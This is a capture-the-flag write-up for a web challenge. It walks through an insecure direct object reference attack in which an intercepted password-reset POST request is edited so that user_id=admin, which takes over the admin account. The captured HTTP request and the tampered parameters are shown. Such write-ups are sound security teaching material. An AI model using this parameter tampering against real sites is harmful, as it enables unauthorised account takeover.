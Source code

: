 # UnChangeablePasswords

## By Om Honrao


<p align="center">
  <img src="Chall.png" alt="Description"/>
</p>

## Hint 1:-
```
The reset password page makes a POST request to some endpoint, maybe you can fiddle with the parameters of the request to change the admin's password?
```

## Hint 2:-
```
Once you have the admin's password won't you be tempted to login as admin and see what's hidden out there?
```

# Walkthrough
Well if we look at this challenge we have a login page. So to start i created a random account. 

<p align="center">
  <img src="webpage.png" alt="Webpage"/>
</p>

I login with the new account and saw there is a Change password option. I went there it took to reset.php. Then I thought we can use IDOR vulnerability because it had two parameters  to post i.e. user_id & pass.

So to change this i fired up burp suite.

I kept intercept on at reset.php.

I reset my password to 123 and saw requests in burp.

I got response as follows:-
```
POST /web/2/reset.php HTTP/2
Host: web.ctf.devclub.in
Cookie: PHPSESSID=vctnccunelh3oioop971veedp1
Content-Length: 23
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://web.ctf.devclub.in
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctf.devclub.in/web/2/reset.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

user_id=9090&pass=123
```
Now i simply change the user_id & pass to admin and set admin different pass.

The changes are as follows:-
```
user_id=admin&pass=123
```

I pressed forward and in my chrome it gave a pop up window saying password for admin has been changed.
Now we can simply login as admin.

And boom! we get the flag 

<p align="center">
  <img src="flag.png" alt="Description"/>
</p>
